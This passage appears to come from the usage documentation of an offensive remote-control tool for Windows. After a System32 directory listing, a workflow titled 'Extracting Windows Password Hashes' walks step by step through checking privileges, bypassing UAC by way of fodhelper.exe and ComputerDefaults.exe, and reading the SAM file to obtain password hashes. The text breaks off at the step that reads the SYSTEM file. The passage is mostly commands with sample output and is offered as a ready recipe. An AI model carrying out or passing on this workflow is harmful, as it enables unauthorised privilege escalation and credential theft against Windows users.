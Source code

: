 **Response:**

```
[+] Directory listed successfully using direct_listing
[+] Directory: C:\Windows\System32
[+] Directories: 45, Files: 2847
============================================================
DIRECTORIES:
  [DIR]  DriverStore
  [DIR]  config
  [DIR]  drivers
  [DIR]  Tasks
  [DIR]  winevt
  ... and 40 more directories

FILES:
  [FILE] ntdll.dll (2048576 bytes)
  [FILE] kernel32.dll (1024000 bytes)
  [FILE] user32.dll (1536000 bytes)
  [FILE] advapi32.dll (819200 bytes)
  ... and 2843 more files
============================================================
```

---

## Complete Workflow Examples

### Scenario 1: Extracting Windows Password Hashes

```bash
# Step 1: Check if you have admin access
> priv_check

Response:
{
  "system": "Windows",
  "is_admin": false,
  "user": "john",
  "integrity_level": "Medium (Standard User)"
}

# Step 2: Attempt UAC bypass to gain admin
> priv_uac_bypass

Response: UAC bypass attempts: fodhelper.exe executed, ComputerDefaults.exe executed

# Step 3: Re-check admin status
> priv_check

Response:
{
  "is_admin": true,  # Success!
  "integrity_level": "High (Admin)"
}

# Step 4: Read SAM file (password hashes)
> priv_read_file C:\Windows\System32\config\SAM

Response:
[+] File read successfully using direct_read
[+] Content: [SAM file contents with password hashes]

# Step 5: Read SYSTEM file (needed to decrypt SAM)
```